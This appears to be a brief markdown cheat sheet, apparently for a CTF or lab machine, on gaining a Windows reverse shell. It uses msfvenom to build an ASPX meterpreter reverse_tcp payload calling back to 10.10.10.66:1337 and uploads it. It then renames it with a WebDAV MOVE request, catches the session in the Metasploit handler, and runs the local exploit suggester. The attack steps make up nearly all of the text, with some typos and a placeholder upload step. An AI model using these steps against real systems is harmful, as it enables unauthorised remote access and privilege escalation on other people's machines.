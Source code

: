 # Use MSFVENOM to create reverse shell payload

1. Create a reverse shell payload

```
msfvenom --list-formats
...
msfvenom --help-formats
...
msfvenom -p wiondows/meterpreter/reverse_tcp LHOST=10.10.10.66 LPORT=1337 -f aspx
```

2. Take the output and save to a file to upload to target.

```
curl put to target
```


3. start the meterpreter handler

```
msfconsole
msf> use exploit/multi/handler
(handler)> set LHOST tun0
(handler)> set LHOST tun0
(handler)> set LPORT 1337
(handler)> set payload windows/meterpreter/reverse_tcp
(handler)> exploit -j
```

4. Use the HTTP move method

``` 
MOVE /revshell.html HTTP/1.1
Destination: /revshell.aspx
TE: deflate,gzip:1=0.3
Conection: close
Host: localhost:80
User-Agent: DAV.p,/v.0.48
Content-Length: 2793
```

5. Go back to msfconsole

```
(handler)> search suggester
(handler)> sessions -i 1
meterpreter> shell
C:\>whoami
...
C:\>exit
(handler)> use post/multi/recon/local_exploit_suggester
(handler)> set SESSIONS 1
(handler)> set SESSION 1
(handler)> run
...
```



```

